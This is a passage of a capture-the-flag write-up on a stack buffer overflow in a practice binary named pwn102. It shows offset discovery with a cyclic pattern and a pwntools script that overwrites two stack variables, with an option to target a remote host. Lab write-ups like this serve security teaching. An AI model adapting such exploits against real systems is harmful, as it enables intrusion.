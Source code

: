 We let run the program and gives cyclic output as input. When program hits our breakpoint we check the value of “$rbp-4”.

```nasm
x/s $rbp-4
```

```bash
cyclic -l caab
```

<p align="center"> <img src="assets/Untitled%207.png"> </p>

We can understand this 108 char will fill the buffer and overwrite “$rbp-4”. But $rbp-8?

```nasm
$rbp - 4 = 108
$rbp - 8 = 104
```

So our exploit is gonna be:

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn102.pwn102'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
        if args.REMOTE: # Runs on remote server, usage "python2.7 code.py REMOTE ip port"
                return remote(sys.argv[1], sys.argv[2], *a, **kw)
        else: # Runs locally, usage "python2.7 code.py"
                return process([exe] + argv, *a, **kw)

exploit  = b''
exploit += b"\x90"*104 # we fill the buffer 
exploit += pack("<I", 0xc0d3) # we overwrite $rbp-8
exploit += pack("<I", 0xc0ff33) # we overwrite $rbp-4

#If you want to see what we wrote uncomment next two lines
#f = open("input.txt", "wb")
#f.write(exploit)

io = start()
```